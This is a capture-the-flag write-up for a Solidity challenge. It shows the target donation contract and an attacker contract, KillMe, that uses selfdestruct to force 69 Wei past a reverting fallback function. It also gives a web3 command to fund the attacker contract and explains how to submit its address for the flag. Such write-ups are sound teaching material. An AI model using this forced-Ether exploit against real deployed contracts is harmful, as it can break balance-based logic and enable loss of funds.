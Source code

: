# Spiritual Box

## Problem Statement
>Donate exactly "69 Wei" in this "Spiritual Box", and Venus would shine upon you.  
["Spiritual Box" aka contract page](http://34.216.132.109:8082/)  
Finally, submit your contract address at nc 34.216.132.109 9091 to get the flag.  
>**Output Format**  
>CodefestCTF{flag}  

**Contract Code**(The Spiritual/Donation Box) of problem statement.
```
1. pragma solidity ^0.4.6;
2.
3. contract Donationbox {
4.
5.     uint private prev;
6.     uint private temp;
7.
8.     constructor() public {
9.        prev = now;
10.    }
11.
12.    function donate() public payable{
13.       temp = now;
14.       require(temp - prev > 500 && msg.value <= 5 && msg.value > 0);
15.       prev = temp;
16.    }
17.
18.    function () public payable{
19.      revert();
20.    }
21. }
```
## Solution  
From given contract code, we can only use donate function every 500 seconds (now in solidity is alias for block.timestamp) and the donation amount should be <= 5, which would have take a lot of time and effort if the total donation amount is large. Moreover donate is the only fucntion that can accept Ether since the **fallback** function [line #18] always reverts(rejects) payments.  
There is a concept in solidity called **selfdestruct(also suicide)** [docs-link](https://solidity.readthedocs.io/en/v0.4.21/units-and-global-variables.html#contract-related). So when a contract commits suicide(destroys itself, freeing up the space on blockchain), it forces it's balance to the address specified in function **selfdestruct(address)**, none of the function of the contract, in which the Ether is forced into, is called. Hence, even the fallback payable function is not able to reject Ether.  

**To solve this challenge**
* Create a new instance from the button privided in the challenge page.  
* Open a new tab and enter [https://remix.ethereum.org](https://remix.ethereum.org), an online Solidity IDE.
* Write a new contract in the IDE which will commit suicide, and deploy it on the same network as that of Spiritual Box.  

```
pragma solidity ^0.4.6;

contract KillMe {

  function selfDestruct() public  {
    selfdestruct(0x9561C133DD8580860B6b7E504bC5Aa500f0f06a7);
  }

  function() payable public {
  }

}
```
Where "0x9561C133DD8580860B6b7E504bC5Aa500f0f06a7" is the address of the deployed Spiritual/Donation Box Contract.
* Send some Ether into **KillMe** contract from any Ethereum Wallet Account via web3 injected by Metamask, in the browser console.  

```
web3.eth.sendTransaction({from:web3.eth.defaultAccount ,to:'0x5b1869d9a4c187f2eaa108f3062412ecf0526b24', value:69}, (err,res)=>{console.log(err,res);})
```
Where "0x5b1869d9a4c187f2eaa108f3062412ecf0526b24" is the address of **KillMe** contract.  
* After having sent 69 Wei to KillMe contract, call its **selfDestruct** function to commit suicide and finally force its balance to the Spiritual Box address.  
![KillMe.sol](http://example.com)  
* Now submit address "0x5b1869d9a4c187f2eaa108f3062412ecf0526b24" at ```nc 34.216.132.109 9091``` to get the flag.
